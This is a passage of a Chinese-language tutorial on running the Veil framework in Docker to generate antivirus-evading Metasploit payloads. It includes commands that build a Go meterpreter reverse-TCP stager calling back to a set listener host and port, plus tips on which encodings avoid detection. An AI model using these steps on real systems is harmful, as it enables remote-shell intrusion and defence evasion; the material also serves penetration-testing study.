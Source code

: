 拉取成功后，执行：

```
docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil
```

`-v /tmp/veil-output:/var/lib/veil/output:Z`是将宿主机的`/tmp/veil-output`目录映射到docker里面，这样veil生成的payload可以直接在宿主机里使用。

之后再进入镜像可以在启动镜像后使用下面命令：

```
docker exec -it <container id> /bin/bash
```

执行`veil`命令可启动,版本为3.1.1。

veil有两个免杀的工具，Evasion和Ordnance。Ordnance可生成在Veil-Evasion中使用的shellcode，Evasion是用做文件免杀。一般选择Evasion。

```
Veil>: use 1                   #选择Evasion功能
Veil/Evasion>: list            #查看payload列表
```

使用`list`可以看到到41种stager。

![image-20220527094613602](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270946813.png)

推荐使用以go和ruby语言encode的编码方式。像python这类的与用户有较高的交互就容易被查杀。

veil原理可以参考：https://xz.aliyun.com/t/4191

### 使用veil直接生成exe(VT查杀率44/69)

veil可以直接生成支持msf的payload，我们先试一下看看效果。

使用go语言生成msf的payload

```
Veil/Evasion>: use 16
```

设置好msf的监听主机和端口：

```
[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate
```

![image-20220527095925448](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270959676.png)

设定好生成的payload的名称，例如payload1：

![image-20220527094916300](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270950182.png)

一系列编码编译之后，就生成payload了：

![image-20220527095021088](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270950223.png)
